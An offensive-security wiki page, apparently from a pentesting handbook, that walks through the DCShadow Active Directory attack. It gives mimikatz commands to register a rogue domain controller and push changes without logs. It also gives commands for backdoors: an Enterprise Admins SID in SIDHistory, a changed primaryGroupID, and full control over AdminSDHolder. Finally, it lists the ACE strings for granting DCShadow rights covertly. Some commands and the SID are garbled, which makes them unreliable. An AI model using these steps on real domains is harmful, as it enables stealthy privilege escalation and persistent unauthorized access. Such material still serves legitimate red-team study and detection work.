 # DCShadow

## DCShadow

It registers a **new Domain Controller** in the AD and uses it to **push attributes** \(SIDHistory, SPNs...\) on specified objects **without** leaving any **logs** regarding the **modifications**. You **need DA** privileges and be inside the **root domain**.  
Note that if you use wrong data, pretty ugly logs will appear.

To perform the attack you need 2 mimikatz instances. One of them will start the RPC servers with SYSTEM privileges \(you have to indicate here the changes you want to perform\), and the other instance will be used to push the values:

{% code title="mimikatz1 \(RPC servers\)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 \(push\) - Needs DA or similar" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Notice that **`elevate::token`** won't work in mimikatz1 session as that elevated the privileges of the thread, but we need to elevate the **privilege of the process**.  
You can also select and "LDAP" object: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

You can push the changes from a DA or from a user with this minimal permissions:

* In the **domain object**:
  * _DS-Install-Replica_ \(Add/Remove Replica in Domain\)
  * _DS-Replication-Manage-Topology_ \(Manage Replication Topology\)
  * _DS-Replication-Synchronize_ \(Replication Synchornization\)
* The **Sites object** \(and its children\) in the **Configuration container**: 
  * _CreateChild and DeleteChild_
* The object of the **computer which is registered as a DC**:
  * _WriteProperty_ \(Not Write\)
* The **target object**:
  * _WriteProperty_ \(Not Write\)

You can use **\*\*\[**Set-DCShadowPermissions**\]\(**[https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)**\) to give these privileges to an unprivileged user \(notice that this will leave some logs\). This is much more restrictive than having DA privileges.  
For example: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` This means that the username \_**student1 _**when logged on in the machine**_ mcorp-student1 _**has DCShadow permissions over the object**_ root1user\*\*\_.

### Using DCShadow to create backdoors

{% code title="Set Enterprise Admins in SIDHistory to a user" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Chage PrimaryGroupID \(put user as member of Domain Administrators\)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Modify ntSecurityDescriptor of AdminSDHolder \(give Full Control to a user\)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

### Shadowception - Give DCShadow permissions using DCShadow \(no modified permissions logs\)

We need to append following ACEs with our user's SID at the end:

* On the domain object:
  * `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
  * `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
  * `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* On the attacker computer object: `(A;;WP;;;UserSID)`
* On the target user object: `(A;;WP;;;UserSID)`
* On the Sites object in Configuration container: `(A;CI;CCDC;;;UserSID)`

To get the current ACE of an object: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Notice that in this case you need to make **several changes,** not just one. So, in the **mimikatz1 session** \(RPC server\) use the parameter **`/stack` with each change** you want to make. This way, you will only need to **`/push`** one time to perform all the stucked changes in the rouge server.

\*\*\*\*[**More information about DCShadow in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)\*\*\*\*

